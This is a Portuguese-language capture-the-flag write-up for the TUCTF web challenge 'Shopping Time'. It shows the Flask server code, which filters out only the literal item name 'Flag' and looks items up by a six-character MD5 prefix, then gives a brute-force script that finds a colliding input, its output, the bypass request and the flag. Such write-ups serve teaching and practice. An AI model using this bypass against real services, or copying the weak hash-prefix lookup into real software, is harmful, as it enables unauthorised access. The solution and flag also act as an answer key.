

# Shopping Time

*I finally got my online shop up and running, check it out and see what you like!*

- *Web Exploitation*
- *Autor do writeup: [@jackskelt](https://github.com/jackskelt)*

> Você pode acessar os arquivos do desafio no nosso repositório
> <https://github.com/HawkSecUnifei/Writeups>

O desafio consiste em uma espécie de colisão de hash. Temos acesso ao código do servidor HTTP rodando.



```py
from flask import Flask,render_template,request, redirect
import sqlite3
import hashlib

app = Flask(__name__)


@app.route("/")
def mainHandler():
    return render_template("index.html")

@app.route("/review")
def reviewHandler():
    con = sqlite3.connect("shopping.db")
    cur = con.cursor()
    item = request.args.get("item")
    if item == "Flag":
        return("Blacklisted term detected")
    hash = hashlib.md5(item.encode()).hexdigest()
    result = cur.execute("SELECT * FROM items WHERE id=?", (hash[0:6],))
    try:
        result = result.fetchone()
        item = result[1]
    except:
        return (redirect("/"))
    return render_template("review.html",placeholder=item,price=result[2],desc=result[3],img=result[4])


if __name__=="__main__":
    app.run(host="0.0.0.0",port=8000,debug=False)
```



Podemos observar que não é possível buscar o termo `Flag` na rota de `/review`, e o item é passado em uma função hash, transformado uma string hexadecimal e os 6 primeiros caracteres são o ID do item.



```py
item = request.args.get("item")
    if item == "Flag":
        return("Blacklisted term detected")
    hash = hashlib.md5(item.encode()).hexdigest()
    result = cur.execute("SELECT * FROM items WHERE id=?", (hash[0:6],))
```



Como somente os 6 primeiros caracteres são levados em conta, podemos tentar achar uma string cujo hash comece com os mesmos 6 caracteres do hash de `Flag`.



```py
import hashlib

def find_collision(target):
    target_hash = hashlib.md5(target.encode()).hexdigest()
    target_prefix = target_hash[:6]
    print(f"Target Prefix: {target_prefix}")

    i = 0
    while True:
        candidate = f"test{i}"
        hash_value = hashlib.md5(candidate.encode()).hexdigest()
        if hash_value.startswith(target_prefix):
            print(f"Found collision: Input = {candidate}, Hash = {hash_value}")
            return candidate
        i += 1

collision_input = find_collision("Flag")
print(f"Collision Input: {collision_input}")
```



```bash
$ python3 collision.py

Target Prefix: c58360
Found collision: Input = test41093, Hash = c58360d262073b06a75e00453f901aa7
Collision Input: test41093
```

Agora podemos acessar a rota `/review?item=test41093` e pegar a flag.

```
TUCTF{k1nd_0f_an_1d0r_vu1n!} 
```

